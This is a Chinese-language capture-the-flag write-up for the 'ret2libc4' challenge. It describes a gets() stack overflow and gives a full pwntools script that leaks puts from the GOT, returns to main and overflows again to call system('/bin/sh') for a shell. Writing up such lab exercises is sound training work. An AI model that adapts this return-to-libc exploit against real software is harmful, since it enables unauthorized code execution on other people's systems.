


# ret2libc4

检查程序保护



观察反汇编



很明显的gets溢出，程序是动态链接，找不到system函数，也无法构造rop链，还是考虑泄露libc函数来完成攻击。

这题跟ret2libc3不同的是我需要溢出两次，第一次gets返回到main函数，再次执行puts函数拿到puts函数在libc中的实现地址，第二次gets后返回到system函数

payload如下

```python
from pwn import *
import time

sh = process('./ret2libc4')
ret2libc4 = ELF('./ret2libc4')

#gdb.attach(sh)
#sleep(15)

#获取puts函数跳转地址
puts_plt = ret2libc4.plt['puts']
#获取puts函数got表地址，等待放入puts中获取puts函数实现地址
puts_got = ret2libc4.got['puts']
#main函数地址，再次返回到main函数
main = ret2libc4.symbols['main']

payload = flat([b'A'*112,puts_plt,main,puts_got])

sh.sendlineafter(b'?',payload)
#拿到puts地址
libc_puts_addr = u32(sh.recv()[0:4])
#根据偏移找到system和bin_sh的地址
system_address = libc_puts_addr - 0x2C4C0
bin_sh = libc_puts_addr + 0x120723

payload = flat([b'a'*104,system_address,0xcafecafe,bin_sh])
sh.sendline(payload)

sh.interactive()

```


总结：

1.该题跟ret2libc3差不多，不过要多溢出一次，第二次溢出的时候注意esp到ret的大小

2.有时候也没必要去可以寻找'/bin/sh'，有'sh'一样是可以的